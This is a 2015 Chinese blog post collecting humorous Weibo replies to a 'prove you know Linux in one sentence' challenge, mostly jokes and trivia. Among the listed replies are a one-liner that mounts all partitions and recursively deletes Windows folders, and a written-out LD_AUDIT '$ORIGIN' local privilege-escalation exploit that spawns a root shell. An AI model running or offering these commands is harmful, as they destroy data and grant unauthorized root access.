 ```yaml
title: 《一句话证明你懂linux》的有趣评论
titleindex_img: /data/attachment/album/201501/26/114332oug6elcbqh8e9are.gif
translator: ''
updated: '2015-01-26 11:43:00'
---
```


上周，[@Linux中国](http://weibo.com/n/Linux%E4%B8%AD%E5%9B%BD?from=feed&loc=at) 和 [@图灵教育](http://weibo.com/n/%E5%9B%BE%E7%81%B5%E6%95%99%E8%82%B2?from=feed&loc=at) 发起了一个活动：“[一句话证明你懂linux](http://weibo.com/1772191555/C0s1qqeYh)”，引来了网友的踊跃参加。网友的智慧是无穷的，我们将其中的一些有趣的回答撷取出来分享给大家。


![](/data/attachment/album/201501/26/114332oug6elcbqh8e9are.gif)


这里有秀命令的，果然不出所料，“rm -rf /”和 shell 炸弹是一定会出现的：


* @doublemark：cd mkdir rm 小白也能证明！
* @joeren1981：cat /etc/passwd | cut -d ':' -f 1 >>/root/userlist
* @love\_daisy\_love：mkdir ~/tmp; sudo fdisk -l | grep ^\/dev | grep -v swap | awk '{print $1}' | xargs -i sh -c "sudo mount {} ~/tmp; sudo rm -rf ~/tmp/Windows; sudo umount tmp"
* @进击的Manu\_coder：echo "tvir zr gurfr obbxf, gunax lbh" | tr [n-za-m] [a-z]
* @赍思潜行：:w !sudo tee % 偷凤转龙的vi命令
* @Seamile：for i in $'\111' $'\114\157\166\145' $'\114\151\156\165\170';do c=$((($RANDOM)%6+31));printf '\033[0;%sm%s \033[0m' $c $i;done
* @M\_四月天：ruby -e 'require "date"; puts DateTime.now.cweek' 你们知道今天是第几周么？[嘻嘻]
* @灰色的小翅膀飞啊飞：mkdir /tmp/exploit ln /bin/ping /tmp/exploit/target exec 999< /tmp/exploit/target rm -rf /tmp/exploit/ echo 'void \_\_attribute\_\_((constructor)) init(){setuid(0);system('/bin/bash');}' | gcc -w -fPIC -shared -o /tmp/exploit -xc - LD\_AUDIT='\$ORIGIN' ～～～got r00t...
* @hunterwan：kexec -l /mnt/$DEV/boot/uImage --append="console=ttyS0,38400 earlyprintk=ttyS0 root=/dev/ram0 rw initrc=myrc" --ramdisk=/mnt/$DEV/myramdisk.gz


也有炫知识的，我只能说，炫的好！


* @norvid：usr目录不是用户目录，而是 Unix System Resource。[嘻嘻]
* @kunis：用vim编写Linux C程序，并用Makefile构建它们，最后在Linux Shell上执行它们，Linux 就是这个范儿。
* @鱿蚊菟鸶：[喵喵] 被企鹅咬过的那个人说过，专利纠纷是开放源代码最大威胁。
* @一生中最爱6666：一切都是文件，每个软件都有特定的用途。
* @OoO牛奶咖啡：echo 3 > /proc/sys/vm/drop\_caches
* @chunk9：你知道吗？ls还有个–Z选项，那一天我打开了新世界的大门…
* @CodeMu：即使是删空目录，我也不用rmdir
* @吹尽狂沙的地盘： 把书给我吧，这个真没法fork（）一个出来！要不给我ln一个也行？
* @mirage\_hl：init是所有进程的爹[哈哈]
* @木木月yjq： “老公我想买个包包”，“老婆家里已经有很多了”，“我就要这个，sudo 买”，“好的，老大”。
* @骑车去首都：我得用less来看这本书啊@图灵教育 ，不太喜欢用more
* @爱开源魅影：我用grep在右面整理成的文章里找我的名字
* @ToB蓝波湾：每次关闭文件之前，我都习惯性的按一下ESC
* @mengalong：当年就知道a.out
* @比尔盖子V:新版内核已经没有讨厌的 BKL 了


他们说的你也知道么？
